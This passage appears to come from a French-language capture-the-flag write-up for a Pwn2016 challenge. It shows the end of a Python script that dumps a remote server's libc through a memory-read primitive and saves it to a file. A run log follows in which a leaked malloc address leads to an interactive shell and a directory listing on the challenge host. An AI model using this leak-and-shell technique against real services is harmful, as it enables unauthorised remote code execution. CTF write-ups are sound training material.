 ```
                buffer=buffer+buf
		lp=len(buf)
                buf=getadd2(zone_a_lire+l+lp)
                dump(zone_a_lire+l+lp,buf)	<--- idem
                l=len(buffer)
                
            OK=1	<--- FINI!!
        except:			<--- cas où la connexion se coupe
            OK=0
            nessai=nessai-1	<--- shoot again!
            if (nessai==0):
                nessai=5
                buffer=buffer+"\xff"
                l=len(buffer)
        p.close()
    
fic=open("libc6","w")		<---- on enrgistre le truc...
fic.write(buffer)
fic.close()
```

Cela permet de trouver un offset_system valant 0x00040440.
On ontient enfin la session shell:
```
francois@athos:~/BFF/Pwn2016$ python irs3.py 1
[+] Opening connection to irs.pwn.republican on port 4127: Done

Enter the name: 
Enter the password: 
Enter the income: 
Enter the deductions: 
Thank you for doing your civic duty m
!
Welcome to the IRS!
How may we serve you today?
1. File a tax return
2. Delete a tax return
3. Edit a tax return
4. View a tax return
5. Exit

Tax returns on file:
0 - Donald Trump
1 - m
Enter the name of the file to edit: 
Enter the password: 
Enter the new income: 
Enter the new deductible: 
Is this correct?
Income: 1
Deductible: 1
y/n
Malloc= 0xf7611060
[*] Switching to interactive mode
: %d

`\x10a�@`
$       \x80\xb8\x0@\xb9]���\x90\xb8\x0/bin
$ ls -al
total 100644
drwxr-xr-x 2 ubuntu ubuntu      4096 Nov  6 02:01 .
drwxr-xr-x 6 ubuntu ubuntu      4096 Nov  5 05:05 ..
-rwxr-xr-x 1 ubuntu ubuntu     15408 Nov  5 00:22 main
-rw------- 1 ubuntu ubuntu 103026003 Nov  7 00:39 nohup.out
```
